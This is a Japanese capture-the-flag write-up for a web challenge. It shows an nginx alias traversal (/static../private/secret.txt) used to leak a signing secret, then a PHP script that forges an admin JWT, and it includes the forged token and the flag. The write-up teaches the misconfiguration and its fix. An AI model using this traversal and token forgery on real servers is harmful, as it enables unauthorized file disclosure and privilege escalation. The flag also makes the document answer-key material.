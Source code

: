 # writeup

## 概要

![welcome](./img/welcome.png)

`/`, `/index.php` トップページ  
歩いているひよこと`Get Flag`ボタンがあり、押すと`/flag.php`に遷移する  
Cookieを確認すると、JWTのTokenが設定されている

![nyoronyoro](./img/nyoronyoro.png)

`/flag.php`  
にょろにょろ動くひよこに「権限がないよ、Adminになって戻ってきて」と言われる

tokenは以下のような構成になっている。

```json
Headers = {
  "alg": "sha256",
  "typ": "JWT"
}

Payload = {
  "isAdmin": "0"
}

Signature = "Yzc5Y2Y2MzlkYjkyNjdjZDkwNzJhNDkyODU0ZTE0ZWYwOTI2NDI3NTlkN2M0YmViN2Y1NDBjOTU4NWYzNzFjYg"
```

`/`のHTMLを見ると`<!-- <a href="?source">debug</a> -->`と書いてある。  
`/?source`を開くと、[index.php](../challenge/code/index.php)のソースコードが見える。  
[flag.php](../challenge/code/flag.php)も同様に、`flag.php?source`を開くとソースコードが見える。

2つのソースコードを読むと以下のようなことがわかる

- `/var/www/app/private/secret.txt`が`$secret`になっている
- 署名は`hash('sha256', $header . $payload . $secret)`でされている  
　=> `$secret`がわからないと改ざんできなそう
- JWTの`isAdmin`を0以外にすればflagが得れそう

どうにかして`secret.txt`の内容を確認出来たら改ざん出来そうだ。

ソースコードからはもう得るものはなさそうなので、配布された`nginx.conf`を確認する。

```conf
location /static {
    alias /var/www/app/static/;
}
```

この`/static`のエイリアスはひよこのgifに使われているが、ここの設定にミスがありalias traversalができる。

> **alias traversalとは**  
今回、`/static`が`/var/www/app/static/`として解釈される。  
ということは`/static../`が`/var/www/app/static/../`と解釈されてしまうので、`/var/www/app/`配下が見れる状態になってしまう。  
これがalias traversal。`location /static/ {...`のように末尾に`/`をつけることで防ぐことができる  

既にわかっている`secret.txt`とgifファイルのパスから、以下のような構成になっていることが予想できる。

```txt
/var/www/app
├── private
│   └── secret.txt
└── static  
    ├── nyoronyoro.gif
    └── welcome.gif
```

alias traversalで`secret.txt`が見れそうだ。

## 解

`/static../private/secret.txt`にアクセスすると、secret.txtが見れる。

```txt
48a939f9d0ef3778ee4fbbca6ffdd933
```

`index.php`のソースコードを参考に、isAdminが1なトークンを作成する。

```php
<?php
function generate($secret)
{
    $header = json_encode(array(
        'alg' => 'sha256',
        'typ' => 'JWT'
    ));

    $payload = json_encode(array(
        'isAdmin' => '1'
    ));
    $signature = hash('sha256', $header . $payload . $secret);
    return trim(base64_encode($header), '=') . '.' .
        trim(base64_encode($payload), '=') . '.' .
        trim(base64_encode($signature), '=');
}
echo generate("48a939f9d0ef3778ee4fbbca6ffdd933");
```

```txt
$ php solve.php
eyJhbGciOiJzaGEyNTYiLCJ0eXAiOiJKV1QifQ.eyJpc0FkbWluIjoiMSJ9.ZmFlNjNhNjFkMTExYTRiYmY2MmU5YzAzZmI1N2U5MTNmM2FmYjE5OTdiNDVjMzA4MDNjZDljYjgxYmY4ODc3YQ
```

これをtokenにセットして`flag.php`を開くと嬉しそうなひよことflagが表示される。

![congrats](./img/congrats.png)

```txt
ISCCTF{s3cr3t_f1l3s_4r3_l34k3d_dv3_t0_4_ng1nx_m1sc0nf1gvr4t10n}
```
